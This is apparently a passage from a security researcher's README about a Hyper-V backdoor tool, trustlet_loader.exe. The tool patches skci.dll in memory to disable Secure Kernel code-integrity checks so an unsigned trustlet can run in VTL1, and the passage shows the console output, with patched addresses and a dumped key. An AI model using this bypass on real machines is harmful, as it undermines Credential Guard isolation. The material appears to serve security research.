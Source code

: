 On the example above you can see LSAIso trustlet process that belongs to the Windows Credential Guard and demo trustlet that was loaded using the Hyper-V backdoor. In order to execute the trustlet in Isolated User Mode Microsoft introduced `CREATE_SECURE_PROCESS` flag of `CreateProcess` [API function](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags). Trustlet executable must have valid Microsoft digital signature with the Windows System Component Verification (1.3.6.1.4.311.10.3.6) Enhanced Key Usage property. To bypass this requirement I made `trustlet_loader.exe` tool that utilizes Hyper-V backdoor functionality to perform in-memory patching of `skci.dll` image responsible for VTL1 code integrity used by Secure Kernel.

Example of loading 3-rd party VTL1 trustlet:

```
> .\trustlet_loader.exe .\trustlet_demo.exe --test-demo
[+] Hyper-V backdoor is running
[+] Collecting secure kernel information...
[+] Reading collected data from 0xfffff833df600d80...
[+] Secure kernel IDT vector #0 is at 0xfffff800582d7400
[+] securekernel.exe is at 0xfffff80058295000
[+] skci.dll is at 0xfffff8005838a000 (phys: 0x612d000)
[+] skci.dll image size is 0x4e000 bytes
[+] skci!SkciFinishImageValidation() RVA is 0x20f0
[+] 17 functions, 164 basic blocks and 1795 instructions was disassembled
Patching location at address skci+3ca98 (phys: 0x6169a98)
Patching location at address skci+3cb9d (phys: 0x6169b9d)
Patching location at address skci+3cce1 (phys: 0x6169ce1)
Patching location at address skci+3cda6 (phys: 0x6169da6)
Patching location at address skci+3ceac (phys: 0x6169eac)
Patching location at address skci+40227 (phys: 0x616d227)
Patching location at address skci+4022e (phys: 0x616d22e)
[+] 7 instructions was patched
[+] Trustlet executable path is ".\trustlet_demo.exe"
[+] Secure process 8628 started
Patching location at address skci+3ca98 (phys: 0x6169a98)
Patching location at address skci+3cb9d (phys: 0x6169b9d)
Patching location at address skci+3cce1 (phys: 0x6169ce1)
Patching location at address skci+3cda6 (phys: 0x6169da6)
Patching location at address skci+3ceac (phys: 0x6169eac)
Patching location at address skci+40227 (phys: 0x616d227)
Patching location at address skci+4022e (phys: 0x616d22e)
[+] 7 instructions was restored
[+] Creating RPC binding...
[+] Calling RPC server to obtain trustlet identy key...
[+] Trustlet identy key size is 299 bytes
00000000: 2b 01 00 00 01 00 00 00  23 01 00 00 00 00 00 00  | +.......#.......
00000010: 52 53 41 31 00 08 00 00  03 00 00 00 00 01 00 00  | RSA1............
00000020: 00 00 00 00 00 00 00 00  01 00 01 dd 3c 73 1a 18  | ............<s..
00000030: 48 89 d8 a0 9d ed 1c bc  eb 3e ea e5 de 98 f3 da  | H........>......
00000040: a9 02 0c d5 5e 42 c0 68  9b 1a 4e 1e 21 91 c0 1a  | ....^B.h..N.!...
00000050: 98 72 c4 0d e7 41 90 f6  3c fd fd c4 49 02 f5 22  | .r...A..<...I.."
00000060: c5 11 59 de 7d aa f3 d2  25 7c a1 1b da d5 c6 33  | ..Y.}...%|.....3
00000070: 21 5c 4a c5 58 36 6e f1  82 93 a3 35 d8 d2 4f 21  | !\J.X6n....5..O!
00000080: 97 77 98 8b 2c 5c 51 7a  b0 a6 48 29 f8 28 23 18  | .w..,\Qz..H).(#.
00000090: 6c 70 79 a1 11 d5 c3 92  d5 96 26 0c 70 4b e9 7d  | lpy.......&.pK.}
000000a0: 9b f8 9d a0 0b 61 56 24  a3 f8 79 54 c9 0b f4 b0  | .....aV$..yT....
000000b0: db 4b 4f fd 62 5f 0a 38  da 8b 27 68 bc cd d8 fe  | .KO.b_.8..'h....
000000c0: 49 a6 1e d1 04 9d 87 53  6a e7 20 1b a1 f2 39 70  | I......Sj. ...9p
000000d0: fc 40 12 47 be a3 09 20  31 8c ac 1a 84 8a 59 a4  | .@.G... 1.....Y.
000000e0: 61 61 4b f9 63 ea 2a 8e  4f a2 19 ae a0 ca 44 31  | aaK.c.*.O.....D1
000000f0: a8 13 c7 3a 99 d1 13 14  9b 64 ea 32 10 9f 45 6b  | ...:.....d.2..Ek
00000100: d7 19 74 18 91 24 18 9d  65 fd 8c 3d 51 66 fa 30  | ..t..$..e..=Qf.0
00000110: 40 99 ad 46 db e4 cd 45  f2 a3 e0 15 8c ce 31 18  | @..F...E......1.
00000120: fd 59 a0 41 6c b9 24 9d  32 9e 27                 | .Y.Al.$.2.'
[+] Calling RPC server to terminate running trustlet...
[+] Secure process exit code is 0x00000000
[+] Done
```